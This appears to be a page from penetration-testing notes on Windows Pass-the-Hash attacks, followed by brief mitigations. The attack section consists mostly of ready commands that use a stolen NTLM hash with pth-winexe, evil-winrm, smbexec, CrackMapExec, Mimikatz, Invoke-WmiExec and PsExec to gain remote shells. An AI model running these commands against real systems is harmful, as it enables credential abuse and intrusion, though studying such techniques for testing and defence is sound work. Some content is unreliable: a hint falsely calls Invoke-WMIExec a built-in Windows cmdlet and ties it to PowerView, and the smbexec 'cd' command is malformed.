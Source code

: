 # Pass-the-Hash

A Pass-the-Hash (PtH) attack is a credential theft technique primarily targeting Windows-based systems. In this attack, an attacker obtains the hashed password of a user and uses it to authenticate as that user, bypassing the need for the actual plain-text password.

[#pass-the-hash-attack](../../executive-pt/post-exploitation/windows-post-exploitation/windows-dump-crack-hashes.md#pass-the-hash-attack "mention")

## Authentication through the stolen password hash

This is the main step where the adversary passes the hash to impersonate the user and gain access to the remote system.

### With pth-winexec (From Kali)

* [GitHub - byt3bl33d3r/pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)
* [Pass the Hash toolkit, Winexe | Kali Linux](https://www.kali.org/tutorials/pass-the-hash-toolkit-winexe-updates/)

```bash
pth-winexe -U $USER_ACCOUNT%$NTLM_HASH //$HOST_IP powershell
```

### With evil-winrm (From Kali)

The "evil-winrm" tool is a Ruby gem that enables the execution of remote commands on a Windows machine using the Windows Remote Management (WinRM) protocol.

```bash
evil-winrm -u $USER_ACCOUNT -H $NTLM_HASH -i $HOST_IP
```

### With SMBExec (From Kali)

```bash
cd /usr/share/doc/python3-impacket/examples/smbexec.py .

python3 smbexec.py <DOMAIN>/<USER>@<IP> -hashes <LMHASH>:<NTHASH>
```

### With CrackMapExec (From Kali)

```bash
crackmapexec smb <IP> -u USER -H <LM:NT>
```





### With Mimikatz (From Windows attack  machine)

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe "sekurlsa::pth /user:$USER /domain:domain.com /ntlm:$NTLM_HASH /run:powershell.exe"
```
{% endcode %}

More details in this page: [mimikatz.md](../../../tools/tools/mimikatz.md "mention")

### With Powershell (PowerView) (From Windows attack Machine

It is common for adversaries to use the _**Invoke-WMIExec**_ cmdlet, which allows execution of arbitrary commands on a remote Windows machine using WMI (Windows Management Instrumentation), to perform a PtH attack.

{% code overflow="wrap" %}
```powershell
Invoke-WmiExec -target $HOST_IP -hash a0c8746a6efc7782c7c19c55185145be -username Alice -command powershell
```
{% endcode %}

{% hint style="info" %}
Note that Invoke-WMIExec is a built-in PowerShell cmdlet that is present in many recent Windows systems. This feature enables the execution of arbitrary commands on a remote Windows machine through Windows Management Instrumentation (WMI). You can run Invoke-WMIExec directly from a PowerShell prompt or integrate it into a PowerShell script.
{% endhint %}



## Accessing resources through new user account

In the third step, we uses the newly obtained user account to expand their network access. For instance, the adversary can use a command-line utility called **PsExec** to perform remote code execution on another host.

```powershell
psexec.exe \\$HOST_IP cmd.exe
```



## Mitigations

Hard to completely prevent, but we can make it more difficult on an attacker:

* **Limit account re-use**:
  * Avoid re-using local admin password
  * Disable Guest and Administrator accounts
  * Limit who is a local administrator (least privilege)
* **Utilize strong passwords**:
  * The longer the better (>14 characters)
  * Avoid using common words
  * I like long senteces
* **Privilege Access management (PAM):**
  * Check out/in sensitive accounts when needed
  * Automatically rotate passwords on check out and check in
  * Limits pass attacks as hash/passowrd is strong and constantly rotated







## References

{% embed url="https://book.hacktricks.xyz/windows-hardening/ntlm#pass-the-hash" %}

